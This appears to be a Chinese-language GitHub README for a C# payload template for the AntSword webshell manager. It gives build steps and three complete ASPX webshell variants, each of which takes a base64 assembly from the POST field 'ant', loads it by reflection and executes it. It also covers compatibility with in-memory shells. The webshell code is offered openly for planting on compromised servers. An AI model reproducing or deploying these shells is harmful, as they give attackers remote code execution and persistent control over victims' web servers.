 # AntSword-Csharp-Template v1.2

中国蚁剑Csharp一句话Payload

编译环境：.net 2.0

适用范围：.net 2.0 及以上

类型介绍：http://yzddmr6.com/posts/%E8%81%8A%E8%81%8A%E6%96%B0%E7%B1%BB%E5%9E%8BASPXCSharp/

## 编译

在build.py中替换你的csc路径后运行，即可在`./dist`目录下自动生成代码模板。

```
python3 build.py
```

编译完成后将`./dist/`目录下所有文件拷贝至`antSword-master/source/core/aspxcsharp/template/`下即可

## Shell

### shell.aspx

为了兼容各种情况下的内存马，Equals中的入口参数可以为System.Web.HttpContext对象，或者包含Request与Response对象的数组。

即

```
<%@ Page Language="c#"%>
<%
    String Payload = Request.Form["ant"];
    if (Payload != null)
    {
        System.Reflection.Assembly assembly = System.Reflection.Assembly.Load(Convert.FromBase64String(Payload));
        assembly.CreateInstance(assembly.GetName().Name + ".Run").Equals(Context);
    }
%>
```

或者

```
<%@ Page Language="c#"%>
<%
    String Payload = Request.Form["ant"];
    if (Payload != null)
    {
        System.Reflection.Assembly assembly = System.Reflection.Assembly.Load(Convert.FromBase64String(Payload));
        assembly.CreateInstance(assembly.GetName().Name + ".Run").Equals(new object[] { Request, Response });
    }
%>
```

如果数组方式跟Context都无法获取的话，Payload会尝试通过HttpContext.Current来拿到当前的Context。所以其实在shell中直接Equals(null)，或者一个随意对象即可。

```
<%@ Page Language="c#"%>
<%
    String Payload = Request.Form["ant"];
    if (Payload != null)
    {
        System.Reflection.Assembly assembly = System.Reflection.Assembly.Load(Convert.FromBase64String(Payload));
        assembly.CreateInstance(assembly.GetName().Name + ".Run").Equals(null);
    }
%>
```

## 更新日志

### v 1.2

1. Payload采用命名空间格式
2. 更新入口参数方式，去掉兼容性不强的Page方式
3. 修复mssql列名获取错误的问题
4. 修改基本信息中获取根路径的方式，兼容HttpListener内存马

### v 1.1

1. 兼容内存马
2. Payload类名不再固定，采用动态获取方式

### v 1.0

1. release